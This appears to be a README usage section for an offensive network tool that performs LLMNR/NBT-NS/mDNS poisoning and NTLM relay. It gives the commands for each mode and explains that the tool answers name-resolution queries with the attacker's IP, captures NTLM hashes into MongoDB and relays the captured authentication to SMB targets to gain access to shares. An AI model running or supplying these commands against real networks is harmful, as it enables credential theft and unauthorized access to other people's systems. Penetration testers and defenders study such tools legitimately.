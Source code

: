 ### 1. List Network Interfaces
```powershell
# List all available network interfaces
python scripts/list_interfaces.py

# Example output:
# Available interfaces:
# - Ethernet: 192.168.1.100
# - Wi-Fi: 192.168.1.101
# - Loopback: 127.0.0.1
```

### 2. Poisoning Mode (LLMNR/NBT-NS/mDNS)
Actively trigger NTLM authentication through name resolution poisoning:

```powershell
# Basic poisoning on specific interface
python src/main.py poison --interface "Ethernet"

# With debug logging for detailed output
python src/main.py poison --interface "Ethernet" --debug

# Example with IP address
python src/main.py poison --interface "192.168.1.100"
```

**What this does:**
- Starts LLMNR (port 5355), NBT-NS (port 137), and mDNS (port 5353) responders
- Responds to name resolution queries with attacker IP
- Starts HTTP (port 8080) and SMB (port 8445) authentication servers
- Captures NTLM authentication attempts triggered by poisoning
- Stores captured hashes and authentication data in MongoDB

### 3. Relay Mode
Forward captured NTLM authentication to target services:

```powershell
# SMB relay to single target
python src/main.py relay --interface "Ethernet" --target "192.168.1.100"

# With debug mode for detailed logging
python src/main.py relay --interface "Ethernet" --target "192.168.1.100" --debug

# Using interface IP instead of name
python src/main.py relay --interface "192.168.1.50" --target "192.168.1.100"
```

**What this does:**
- Sets up SMB relay server on specified interface
- Waits for incoming NTLM authentication attempts
- Forwards authentication to target SMB service
- Attempts to gain access to target shares
- Reports success/failure of relay attempts
- Stores relay results in MongoDB
